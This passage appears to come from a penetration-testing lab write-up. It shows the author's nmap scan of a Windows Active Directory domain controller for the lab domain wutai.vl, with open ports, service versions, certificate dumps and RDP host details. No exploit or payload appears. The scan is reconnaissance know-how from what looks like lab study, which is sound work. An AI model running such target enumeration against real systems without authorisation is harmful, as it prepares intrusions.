





As usual I will perform another scan on the TCP ports open on this machine:

```bash
PORT      STATE SERVICE       REASON         VERSION
53/tcp    open  domain        syn-ack ttl 64 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 64 Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  syn-ack ttl 64 Microsoft Windows Kerberos (server time: 2026-03-31 14:15:08Z)
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: wutai.vl, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=S022M110.wutai.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:S022M110.wutai.vl
| Issuer: commonName=wutai-S022M110-CA/domainComponent=wutai
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-31T04:01:33
| Not valid after:  2027-03-31T04:01:33
| MD5:     663d d7ac 68b7 e6dc 1abd c721 4248 74cb
| SHA-1:   eaaa d3ca cead 43ee 9ef4 e079 12de eeef d853 4c6e
| SHA-256: 87b4 c24b 6905 20b2 3ad0 bcc3 4de1 fe33 f0a7 c4d8 ce99 420f 5206 0bf6 1ed1 1662
| -----BEGIN CERTIFICATE-----
| MIIGMTCCBRmgAwIBAgITQwAAAAiqx4LpUas1VgAAAAAACDANBgkqhkiG9w0BAQsF
| ADBHMRIwEAYKCZImiZPyLGQBGRYCdmwxFTATBgoJkiaJk/IsZAEZFgV3dXRhaTEa
| MBgGA1UEAxMRd3V0YWktUzAyMk0xMTAtQ0EwHhcNMjYwMzMxMDQwMTMzWhcNMjcw
| MzMxMDQwMTMzWjAcMRowGAYDVQQDExFTMDIyTTExMC53dXRhaS52bDCCASIwDQYJ
| KoZIhvcNAQEBBQADggEPADCCAQoCggEBAMSYUY4oYvsdoCckv+oeVlWyTeekMmhw
| y99FMfhoouAacjRFDiIoSZKhM1C8eOFg2n/KMuJcGmImkogEU1rhqzeViZqaRTY5
| X90sHc37a7MibDXyqmcSAv9qr+sQNhhBCG0Tn6PrOc0jfxusdkGn65HE1E0QG+XG
| xEER6Od+Otn2BGMelzVWxsM27wl/KoN9+keiPtzv3xxZgvVK3T+fDc0G+jqC2QGc
| uZfqfJxfRpScBnkbJ7Nxq+yB0N11HarvEo9JnGX+c7RlycYjBCV8Xz4tdiQ45R2M
| ngGKFmMdnTztLGYLfOvYadhhUzU9ZzYDhzY+JI5Te1vl6sE3q6wwXzUCAwEAAaOC
| Az8wggM7MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8A
| bABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/
| BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3
| DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjAL
| BglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwTQYJKwYBBAGCNxkCBEAw
| PqA8BgorBgEEAYI3GQIBoC4ELFMtMS01LTIxLTM0MzQ2MDY0MS02NjkzNDg3NTgt
| Mjg3MDA2ODExNy0xMDAwMD0GA1UdEQQ2MDSgHwYJKwYBBAGCNxkBoBIEEEOOFsgn
| wMtPpmO1HlAFpkqCEVMwMjJNMTEwLnd1dGFpLnZsMB0GA1UdDgQWBBRO0v4Gvu06
| kIQKQ8/KqoBsjKXk5jAfBgNVHSMEGDAWgBSx0A8FT6g7Ctrii2ryeNOWaUg/ajCB
| zQYDVR0fBIHFMIHCMIG/oIG8oIG5hoG2bGRhcDovLy9DTj13dXRhaS1TMDIyTTEx
| MC1DQSxDTj1TMDIyTTExMCxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vydmlj
| ZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz13dXRhaSxEQz12bD9j
| ZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlz
| dHJpYnV0aW9uUG9pbnQwgcAGCCsGAQUFBwEBBIGzMIGwMIGtBggrBgEFBQcwAoaB
| oGxkYXA6Ly8vQ049d3V0YWktUzAyMk0xMTAtQ0EsQ049QUlBLENOPVB1YmxpYyUy
| MEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9
| d3V0YWksREM9dmw/Y0FDZXJ0aWZpY2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRp
| ZmljYXRpb25BdXRob3JpdHkwDQYJKoZIhvcNAQELBQADggEBAA+1bpQXwR4Vv4e+
| eiPenxixnZiN7hTvM7hAjJlB6hRJnAMoq32m3+9ZlzSd2URk2dEQpcdFFuyk0xR0
| QUl6Gd/nCO6Rnw2UyvC/R3YuswB13vEeSRB0gu/ofLto69oKaLz4MR/PP3U//4GB
| 5QwkVdWqLtPU1mp7a6RQ4B6gjZMFPn6UrB+1ZY0lAJLTrBH4V6mKK7dUccnuzuwW
| U8ly5X+9DHJlWbcMGh8tAVcs6gPTe96clogLy65EwVTYnBpyTbHI00Dc4vx4gg/j
| dff2zMgQhaEeHYa0nHcoetko/LgEppMRTvO7hVHVPht3rDVOIUC/5LL7F8ybkkfL
| bg+lMvk=
|_-----END CERTIFICATE-----
445/tcp   open  microsoft-ds? syn-ack ttl 64
464/tcp   open  kpasswd5?     syn-ack ttl 64
593/tcp   open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: wutai.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=S022M110.wutai.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:S022M110.wutai.vl
| Issuer: commonName=wutai-S022M110-CA/domainComponent=wutai
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-31T04:01:33
| Not valid after:  2027-03-31T04:01:33
| MD5:     663d d7ac 68b7 e6dc 1abd c721 4248 74cb
| SHA-1:   eaaa d3ca cead 43ee 9ef4 e079 12de eeef d853 4c6e
| SHA-256: 87b4 c24b 6905 20b2 3ad0 bcc3 4de1 fe33 f0a7 c4d8 ce99 420f 5206 0bf6 1ed1 1662
| -----BEGIN CERTIFICATE-----
| MIIGMTCCBRmgAwIBAgITQwAAAAiqx4LpUas1VgAAAAAACDANBgkqhkiG9w0BAQsF
| ADBHMRIwEAYKCZImiZPyLGQBGRYCdmwxFTATBgoJkiaJk/IsZAEZFgV3dXRhaTEa
| MBgGA1UEAxMRd3V0YWktUzAyMk0xMTAtQ0EwHhcNMjYwMzMxMDQwMTMzWhcNMjcw
| MzMxMDQwMTMzWjAcMRowGAYDVQQDExFTMDIyTTExMC53dXRhaS52bDCCASIwDQYJ
| KoZIhvcNAQEBBQADggEPADCCAQoCggEBAMSYUY4oYvsdoCckv+oeVlWyTeekMmhw
| y99FMfhoouAacjRFDiIoSZKhM1C8eOFg2n/KMuJcGmImkogEU1rhqzeViZqaRTY5
| X90sHc37a7MibDXyqmcSAv9qr+sQNhhBCG0Tn6PrOc0jfxusdkGn65HE1E0QG+XG
| xEER6Od+Otn2BGMelzVWxsM27wl/KoN9+keiPtzv3xxZgvVK3T+fDc0G+jqC2QGc
| uZfqfJxfRpScBnkbJ7Nxq+yB0N11HarvEo9JnGX+c7RlycYjBCV8Xz4tdiQ45R2M
| ngGKFmMdnTztLGYLfOvYadhhUzU9ZzYDhzY+JI5Te1vl6sE3q6wwXzUCAwEAAaOC
| Az8wggM7MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8A
| bABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/
| BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3
| DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjAL
| BglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwTQYJKwYBBAGCNxkCBEAw
| PqA8BgorBgEEAYI3GQIBoC4ELFMtMS01LTIxLTM0MzQ2MDY0MS02NjkzNDg3NTgt
| Mjg3MDA2ODExNy0xMDAwMD0GA1UdEQQ2MDSgHwYJKwYBBAGCNxkBoBIEEEOOFsgn
| wMtPpmO1HlAFpkqCEVMwMjJNMTEwLnd1dGFpLnZsMB0GA1UdDgQWBBRO0v4Gvu06
| kIQKQ8/KqoBsjKXk5jAfBgNVHSMEGDAWgBSx0A8FT6g7Ctrii2ryeNOWaUg/ajCB
| zQYDVR0fBIHFMIHCMIG/oIG8oIG5hoG2bGRhcDovLy9DTj13dXRhaS1TMDIyTTEx
| MC1DQSxDTj1TMDIyTTExMCxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vydmlj
| ZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz13dXRhaSxEQz12bD9j
| ZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlz
| dHJpYnV0aW9uUG9pbnQwgcAGCCsGAQUFBwEBBIGzMIGwMIGtBggrBgEFBQcwAoaB
| oGxkYXA6Ly8vQ049d3V0YWktUzAyMk0xMTAtQ0EsQ049QUlBLENOPVB1YmxpYyUy
| MEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9
| d3V0YWksREM9dmw/Y0FDZXJ0aWZpY2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRp
| ZmljYXRpb25BdXRob3JpdHkwDQYJKoZIhvcNAQELBQADggEBAA+1bpQXwR4Vv4e+
| eiPenxixnZiN7hTvM7hAjJlB6hRJnAMoq32m3+9ZlzSd2URk2dEQpcdFFuyk0xR0
| QUl6Gd/nCO6Rnw2UyvC/R3YuswB13vEeSRB0gu/ofLto69oKaLz4MR/PP3U//4GB
| 5QwkVdWqLtPU1mp7a6RQ4B6gjZMFPn6UrB+1ZY0lAJLTrBH4V6mKK7dUccnuzuwW
| U8ly5X+9DHJlWbcMGh8tAVcs6gPTe96clogLy65EwVTYnBpyTbHI00Dc4vx4gg/j
| dff2zMgQhaEeHYa0nHcoetko/LgEppMRTvO7hVHVPht3rDVOIUC/5LL7F8ybkkfL
| bg+lMvk=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
3268/tcp  open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: wutai.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=S022M110.wutai.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:S022M110.wutai.vl
| Issuer: commonName=wutai-S022M110-CA/domainComponent=wutai
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-31T04:01:33
| Not valid after:  2027-03-31T04:01:33
| MD5:     663d d7ac 68b7 e6dc 1abd c721 4248 74cb
| SHA-1:   eaaa d3ca cead 43ee 9ef4 e079 12de eeef d853 4c6e
| SHA-256: 87b4 c24b 6905 20b2 3ad0 bcc3 4de1 fe33 f0a7 c4d8 ce99 420f 5206 0bf6 1ed1 1662
| -----BEGIN CERTIFICATE-----
| MIIGMTCCBRmgAwIBAgITQwAAAAiqx4LpUas1VgAAAAAACDANBgkqhkiG9w0BAQsF
| ADBHMRIwEAYKCZImiZPyLGQBGRYCdmwxFTATBgoJkiaJk/IsZAEZFgV3dXRhaTEa
| MBgGA1UEAxMRd3V0YWktUzAyMk0xMTAtQ0EwHhcNMjYwMzMxMDQwMTMzWhcNMjcw
| MzMxMDQwMTMzWjAcMRowGAYDVQQDExFTMDIyTTExMC53dXRhaS52bDCCASIwDQYJ
| KoZIhvcNAQEBBQADggEPADCCAQoCggEBAMSYUY4oYvsdoCckv+oeVlWyTeekMmhw
| y99FMfhoouAacjRFDiIoSZKhM1C8eOFg2n/KMuJcGmImkogEU1rhqzeViZqaRTY5
| X90sHc37a7MibDXyqmcSAv9qr+sQNhhBCG0Tn6PrOc0jfxusdkGn65HE1E0QG+XG
| xEER6Od+Otn2BGMelzVWxsM27wl/KoN9+keiPtzv3xxZgvVK3T+fDc0G+jqC2QGc
| uZfqfJxfRpScBnkbJ7Nxq+yB0N11HarvEo9JnGX+c7RlycYjBCV8Xz4tdiQ45R2M
| ngGKFmMdnTztLGYLfOvYadhhUzU9ZzYDhzY+JI5Te1vl6sE3q6wwXzUCAwEAAaOC
| Az8wggM7MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8A
| bABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/
| BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3
| DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjAL
| BglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwTQYJKwYBBAGCNxkCBEAw
| PqA8BgorBgEEAYI3GQIBoC4ELFMtMS01LTIxLTM0MzQ2MDY0MS02NjkzNDg3NTgt
| Mjg3MDA2ODExNy0xMDAwMD0GA1UdEQQ2MDSgHwYJKwYBBAGCNxkBoBIEEEOOFsgn
| wMtPpmO1HlAFpkqCEVMwMjJNMTEwLnd1dGFpLnZsMB0GA1UdDgQWBBRO0v4Gvu06
| kIQKQ8/KqoBsjKXk5jAfBgNVHSMEGDAWgBSx0A8FT6g7Ctrii2ryeNOWaUg/ajCB
| zQYDVR0fBIHFMIHCMIG/oIG8oIG5hoG2bGRhcDovLy9DTj13dXRhaS1TMDIyTTEx
| MC1DQSxDTj1TMDIyTTExMCxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vydmlj
| ZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz13dXRhaSxEQz12bD9j
| ZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlz
| dHJpYnV0aW9uUG9pbnQwgcAGCCsGAQUFBwEBBIGzMIGwMIGtBggrBgEFBQcwAoaB
| oGxkYXA6Ly8vQ049d3V0YWktUzAyMk0xMTAtQ0EsQ049QUlBLENOPVB1YmxpYyUy
| MEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9
| d3V0YWksREM9dmw/Y0FDZXJ0aWZpY2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRp
| ZmljYXRpb25BdXRob3JpdHkwDQYJKoZIhvcNAQELBQADggEBAA+1bpQXwR4Vv4e+
| eiPenxixnZiN7hTvM7hAjJlB6hRJnAMoq32m3+9ZlzSd2URk2dEQpcdFFuyk0xR0
| QUl6Gd/nCO6Rnw2UyvC/R3YuswB13vEeSRB0gu/ofLto69oKaLz4MR/PP3U//4GB
| 5QwkVdWqLtPU1mp7a6RQ4B6gjZMFPn6UrB+1ZY0lAJLTrBH4V6mKK7dUccnuzuwW
| U8ly5X+9DHJlWbcMGh8tAVcs6gPTe96clogLy65EwVTYnBpyTbHI00Dc4vx4gg/j
| dff2zMgQhaEeHYa0nHcoetko/LgEppMRTvO7hVHVPht3rDVOIUC/5LL7F8ybkkfL
| bg+lMvk=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap      syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: wutai.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=S022M110.wutai.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:S022M110.wutai.vl
| Issuer: commonName=wutai-S022M110-CA/domainComponent=wutai
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-31T04:01:33
| Not valid after:  2027-03-31T04:01:33
| MD5:     663d d7ac 68b7 e6dc 1abd c721 4248 74cb
| SHA-1:   eaaa d3ca cead 43ee 9ef4 e079 12de eeef d853 4c6e
| SHA-256: 87b4 c24b 6905 20b2 3ad0 bcc3 4de1 fe33 f0a7 c4d8 ce99 420f 5206 0bf6 1ed1 1662
| -----BEGIN CERTIFICATE-----
| MIIGMTCCBRmgAwIBAgITQwAAAAiqx4LpUas1VgAAAAAACDANBgkqhkiG9w0BAQsF
| ADBHMRIwEAYKCZImiZPyLGQBGRYCdmwxFTATBgoJkiaJk/IsZAEZFgV3dXRhaTEa
| MBgGA1UEAxMRd3V0YWktUzAyMk0xMTAtQ0EwHhcNMjYwMzMxMDQwMTMzWhcNMjcw
| MzMxMDQwMTMzWjAcMRowGAYDVQQDExFTMDIyTTExMC53dXRhaS52bDCCASIwDQYJ
| KoZIhvcNAQEBBQADggEPADCCAQoCggEBAMSYUY4oYvsdoCckv+oeVlWyTeekMmhw
| y99FMfhoouAacjRFDiIoSZKhM1C8eOFg2n/KMuJcGmImkogEU1rhqzeViZqaRTY5
| X90sHc37a7MibDXyqmcSAv9qr+sQNhhBCG0Tn6PrOc0jfxusdkGn65HE1E0QG+XG
| xEER6Od+Otn2BGMelzVWxsM27wl/KoN9+keiPtzv3xxZgvVK3T+fDc0G+jqC2QGc
| uZfqfJxfRpScBnkbJ7Nxq+yB0N11HarvEo9JnGX+c7RlycYjBCV8Xz4tdiQ45R2M
| ngGKFmMdnTztLGYLfOvYadhhUzU9ZzYDhzY+JI5Te1vl6sE3q6wwXzUCAwEAAaOC
| Az8wggM7MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8A
| bABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/
| BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3
| DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjAL
| BglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwTQYJKwYBBAGCNxkCBEAw
| PqA8BgorBgEEAYI3GQIBoC4ELFMtMS01LTIxLTM0MzQ2MDY0MS02NjkzNDg3NTgt
| Mjg3MDA2ODExNy0xMDAwMD0GA1UdEQQ2MDSgHwYJKwYBBAGCNxkBoBIEEEOOFsgn
| wMtPpmO1HlAFpkqCEVMwMjJNMTEwLnd1dGFpLnZsMB0GA1UdDgQWBBRO0v4Gvu06
| kIQKQ8/KqoBsjKXk5jAfBgNVHSMEGDAWgBSx0A8FT6g7Ctrii2ryeNOWaUg/ajCB
| zQYDVR0fBIHFMIHCMIG/oIG8oIG5hoG2bGRhcDovLy9DTj13dXRhaS1TMDIyTTEx
| MC1DQSxDTj1TMDIyTTExMCxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vydmlj
| ZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz13dXRhaSxEQz12bD9j
| ZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlz
| dHJpYnV0aW9uUG9pbnQwgcAGCCsGAQUFBwEBBIGzMIGwMIGtBggrBgEFBQcwAoaB
| oGxkYXA6Ly8vQ049d3V0YWktUzAyMk0xMTAtQ0EsQ049QUlBLENOPVB1YmxpYyUy
| MEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9
| d3V0YWksREM9dmw/Y0FDZXJ0aWZpY2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRp
| ZmljYXRpb25BdXRob3JpdHkwDQYJKoZIhvcNAQELBQADggEBAA+1bpQXwR4Vv4e+
| eiPenxixnZiN7hTvM7hAjJlB6hRJnAMoq32m3+9ZlzSd2URk2dEQpcdFFuyk0xR0
| QUl6Gd/nCO6Rnw2UyvC/R3YuswB13vEeSRB0gu/ofLto69oKaLz4MR/PP3U//4GB
| 5QwkVdWqLtPU1mp7a6RQ4B6gjZMFPn6UrB+1ZY0lAJLTrBH4V6mKK7dUccnuzuwW
| U8ly5X+9DHJlWbcMGh8tAVcs6gPTe96clogLy65EwVTYnBpyTbHI00Dc4vx4gg/j
| dff2zMgQhaEeHYa0nHcoetko/LgEppMRTvO7hVHVPht3rDVOIUC/5LL7F8ybkkfL
| bg+lMvk=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
|_ssl-date: 2026-03-31T14:16:40+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=S022M110.wutai.vl
| Issuer: commonName=S022M110.wutai.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-30T04:10:28
| Not valid after:  2026-09-29T04:10:28
| MD5:     8c7c dbe2 33c5 8402 72b1 65d6 f26b d703
| SHA-1:   cc75 a310 e948 49de b67b 4ed0 de8a 328b a811 82cd
| SHA-256: 2e40 2ec4 33d8 12d7 ee49 a4bd 341d 1eeb 32c8 c923 d986 4cb3 0a6c b8f7 7a93 eddf
| -----BEGIN CERTIFICATE-----
| MIIC5jCCAc6gAwIBAgIQR6XKhHtA0ZVLcye8AjsEITANBgkqhkiG9w0BAQsFADAc
| MRowGAYDVQQDExFTMDIyTTExMC53dXRhaS52bDAeFw0yNjAzMzAwNDEwMjhaFw0y
| NjA5MjkwNDEwMjhaMBwxGjAYBgNVBAMTEVMwMjJNMTEwLnd1dGFpLnZsMIIBIjAN
| BgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA4Hgrdp5r5Vr+l9Yd/3lFGTvjdOnA
| rbOul9BojpGzjrsSDxYKjQXDYrUfTsy+foPRCAUBDeXWKWUhK7g+LBDzIxj9JM5b
| 2fAfxx8ik9UO1ZbtmqeDOT2O6SV+tWEAmGG0+VCDDFTD/jpEZdotbBOJgsHGgUD7
| fbdyMWXxUUnfT8YWBVD7O4NAI5Mgzlluz0Z2V5MDwAEEEM2ATQZpzw9oSSfvXod7
| 8KmyhdGS4vhztFNjQpx6G8Yw5KtD4hY2E5DPhcShxMuFjWTV8vA980ImdwdNLOpb
| OLgHS/tQNB9KK1FyFCfq8JBfS+q4lkOtZ1yFc2ey2ou1AHXdT3dvSc1AWQIDAQAB
| oyQwIjATBgNVHSUEDDAKBggrBgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcN
| AQELBQADggEBALAnTPNVRWWuLZvmgmcIdPl6nt+fH66aJy9oTYFqPbxCIFGEE3ER
| f0LUR/ufIOkUce6hk8wyW+ibnor0oxFpU4CrvRzIxdsy0745+KM+dIO4tyr3Pgs7
| oW0RUgetL6selWLRUiUmmvodW0oZzDtVAkgZl4gWrGlR5NXqSWdyez/WXkK5I1zW
| FZ9Clwu87SMLmi4DMDsX0hQ44o0dJRqvoB2aOO0CGmkkBmTZvWoCh+IhzzRiqC3f
| o9CiTxY4ZIys/4t1O0oyN+cdwxnv3DrLs4j9SvSMMg/xppLX8yL1F3EBA2pacNxl
| BFBRQKh5qYWydMkwM1lQIEC+jEAkt0MYxiw=
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: WUTAI
|   NetBIOS_Domain_Name: WUTAI
|   NetBIOS_Computer_Name: S022M110
|   DNS_Domain_Name: wutai.vl
|   DNS_Computer_Name: S022M110.wutai.vl
|   DNS_Tree_Name: wutai.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-03-31T14:16:00+00:00
